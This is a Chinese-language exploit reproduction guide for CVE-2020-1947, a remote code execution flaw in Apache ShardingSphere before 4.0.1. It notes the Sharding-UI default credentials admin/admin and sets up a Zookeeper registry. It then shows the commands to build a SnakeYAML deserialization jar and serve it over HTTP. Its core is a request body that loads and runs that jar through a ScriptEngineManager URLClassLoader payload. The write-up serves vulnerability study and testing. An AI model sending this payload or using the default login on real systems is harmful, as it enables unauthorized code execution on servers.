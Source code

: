 （CVE-2020-1947）Apache ShardingSphere远程代码执行漏洞
======================================================

一、漏洞简介
------------

二、漏洞影响
------------

Apache ShardingSphere \< 4.0.1

三、复现过程
------------

Sharding-UI的默认密码为admin/admin

![](./.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId24.png)

顺带一提，在`conf/application.properties`中存储了WEB端的端口和账号密码。

![](./.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId25.png)

### 安装Zookeeper

要想成功利用，需要先在Sharding-UI中添加一个注册中心，否则在后续利用中会提示`No activated registry center!`，所以需要搭建一个Zookeeper。
这里直接使用docker搭建Zookeeper，并且将2181端口映射出来到本地的2181端口。

    docker pull zookeeper
    docker run --privileged=true -d --name zookeeper --publish 2181:2181  -d zookeeper:latest

### 配置registry-center

在Sharding-UI的registry-center模块配置Zookeeper的地址。

![](./.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId28.png)

成功连接即可。

![](./.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId29.png)

### 生成payload

使用SnakeYAML反序列化小工具： https://github.com/ianxtianxt/yaml-payload
修改`src/artsploit/AwesomeScriptEngineFactory.java`文件，设置为弹出计算器。

![](./.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId31.png)

编译生成jar包：

    javac src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .

然后使用python本地搭建HTTPServer，等待连接。

    python -m SimpleHTTPServer 90

### 代码执行

在web端的Rule Config------\>Add Schema处加入YAML代码并提交。

![](./.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId33.png)

数据包正文：

    {"name":"test","ruleConfiguration":"encryptors:\n    <encryptor-name>:\n      type: MD5\n      props:","dataSourceConfiguration":"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://localhost:90/yaml-payload.jar\"]]]]"}

发送即可成功弹出计算器。

![](./.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId34.png)
